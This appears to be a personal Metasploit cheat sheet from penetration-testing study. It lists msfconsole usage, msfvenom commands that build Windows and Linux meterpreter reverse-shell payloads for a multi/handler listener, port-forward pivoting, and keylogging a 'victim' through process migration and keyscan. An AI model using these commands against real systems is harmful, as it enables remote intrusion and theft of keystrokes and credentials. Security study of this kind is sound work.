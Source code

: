 # Metasploit

## Resources
- <https://www.offsec.com/metasploit-unleashed/introduction/>




`ctrl+Z` Background session
`sessions -l` List sessions
`sessions -i [NUMBER]` foreground session


```
sudo msfdb init && msfconsole

search [KEYWORD]
Example: search eternalblue

use [NUMBER]

show options

set [OPTION] [VALUE]
Example: set RHOST [IP]

run
exploit

```

## Meterpreter
meterpreter not the same as shell


## Multi Handler (msfvenom + metasploit)

```
> use multi/handler


# generate payload (windows, ergo `.exe`)

> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe -o payload.exe

> set PAYLOAD windows/x64/meterpreter/reverse_tcp

> run


# generate payload (linux)
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf '\x00\x0a\x0d' -o virus




```




## Pivoting
```
> use post/multi/manage/autorute



portfwd add -l [LOCAL PORT] -p [REMOTE PORT] -r [REMOTE IP]
```




## Keylogger
once with a foothold in the victim
```
# 1 find the PID:
> ps -S explorer.exe
> migrate [PID]
> keyscan_start
...
> keyscan_dump

```












